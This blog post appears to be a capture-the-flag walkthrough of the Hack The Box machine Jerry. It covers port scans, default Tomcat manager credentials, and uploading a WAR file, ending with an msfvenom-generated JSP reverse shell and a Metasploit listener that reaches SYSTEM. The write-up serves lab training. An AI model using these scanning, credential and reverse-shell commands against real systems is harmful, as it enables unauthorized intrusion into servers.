 ```yaml
---
title: Jerry
published: true
layout: post
---
```


<br />

---------------
Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/SxrTIBxgnwE?si=D6W_zYFHUTDfnarv" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.95 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.95 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Jerry/1.png)
<br />
<br />
<br />

The UDP scan didn't return anything.

<br />

There is **1 open port**:
+ **8080/tcp**

<br />

Let's check which **services** are running in this port:

```bash
sudo nmap -sS 10.10.10.95 -p 8080 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Jerry/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **8080/tcp Apache Tomcat/Coyote JSP engine 1.1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.95 -p 8080 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

![](/assets/Jerry/3.png)
<br />
<br />
<br />

This last scan returned a lot of information, but there is a specific critical piece of information, we found credentials ***tomcat:s3cret***.

<br />

------

<br />
### Foothold

The foothold in this machine is very easy now that we have obtained **credentials**.

<br />

We can go to the main web page and click on the ***Server Status* button**:
<br />
![](/assets/Jerry/4.png)
<br />
<br />
<br />

Now we will be prompted for credentials, we will use the ones we retrieved earlier:
<br />
![](/assets/Jerry/5.png)
<br />
<br />
<br />

Now we must go to ***List Applications***:
<br />
![](/assets/Jerry/6.png)
<br />
<br />
<br />

Here we will be able to **upload WAR files**, knowing that Tomcat is using a JSP engine, we can upload a **JSP reverse shell** and set up a listener:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 --platform windows -f war -o revshell.war
msfconsole -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 10.10.16.7; set LPORT 4444; run"
```

![](/assets/Jerry/7.png)
<br />
<br />
<br />

After this we will have a **new site available */revshell***, we can click on it to receive our reverse shell:
<br />
![](/assets/Jerry/8.png)
<br />
![](/assets/Jerry/9.png)
<br />
<br />
<br />

We have obtained RCE as **NT AUTHORITY\SYSTEM**, so we can print both flags:
```bash
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](/assets/Jerry/10.png)
<br />
<br />
<br />

